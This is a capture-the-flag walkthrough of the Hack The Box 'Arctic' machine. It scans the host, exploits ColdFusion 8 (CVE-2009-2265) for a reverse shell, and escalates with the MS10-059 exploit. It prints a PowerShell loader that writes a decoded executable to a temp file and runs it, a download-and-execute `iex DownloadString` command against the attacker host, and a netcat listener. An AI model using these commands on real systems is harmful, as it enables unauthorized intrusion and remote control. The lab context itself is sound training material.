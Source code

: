 # arctic

[link to the box](https://app.hackthebox.com/machines/Arctic)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```
$ nmap -sV -Pn -p- 10.10.10.11
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

the service of interest here is the `fmtp?` service. fmtp is the [file multicast transport protocol](https://engineering.virginia.edu/high-speed-networks-lab-hsn/hsn-software/hsn-software-fmtp), meaning we can probably access files from there.

![fmtp](img/fmtp.png)

visiting the website shows us a root directory.

browsing around in it leads us to this link: http://10.10.10.11:8500/CFIDE/administrator/

![coldfusion admin panel](img/coldfusion)

# exploiting

the adobe coldfusion admin panel tells us that we are running coldfusion 8. lets look up some exploits for it:

[literally the first result](https://www.exploit-db.com/exploits/50057)

[using this cve](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)

how handy, lets try running it by modifying the python script with our own local an remote ports.

![reverse shell](img/shell.png)

which worked first try. we now have a cool shell as the `arctic\tolis` user.

# pwning

first lets find the user flag by searching for it:

search the system for flag files:

```
> where /r c: *flag*
> where /r c: *.txt
```

the user flag is located in `C:\Users\tolis\Desktop\user.txt`

use `type` to print the contents of the file.

```
> type C:\Users\tolis\Desktop\user.txt
38b6a325c4a0c6c31138081b555d7c49
```

first, lets get an idea of what machine we are running on.

```
> systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
...
System Type:               x64-based PC
```

looks like the server is an x86_64 windows 7 SP0 (equivalent) machine.

three escalation vulnerabilities we can try are MS10-092, MS10-059, and MS10-015

in this case i will be using an MS10-059 exploit from [this repo](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Source)

after compiling the sources or downloading the precompiled binary, the easiest delivery method is to send it over a powershell script

```ps1
function Invoke-Chimichurri {
        $LPORT = 10.10.14.13
        $LHOST = 42069

        $data = [System.Convert]::FromBase64String("<BASE64 ENCODED PROGRAM>")
        $exe = [System.IO.Path]::GetTempPath() + "Chimichurri.exe"
        [System.IO.File]::WriteAllBytes($exe, $data)
        & $exe $LHOST $LPORT
}
```

start a python http server to share the file, open the listener, and run the script

```
$ doas python3 -m http.server 80
$ nc -lvp 42069
> powershell iex "(New-Object Net.WebClient).DownloadString('http://10.10.14.13/chimichurri.ps1'); Invoke-Chimichurri"
```

![we have root](img/root.png)

using the `where` commands that we used for user, the root flag has been found.

```
> type C:\Users\Administrator\Desktop\root.txt
1996670b22d05104c5ebdc3914881a05
```
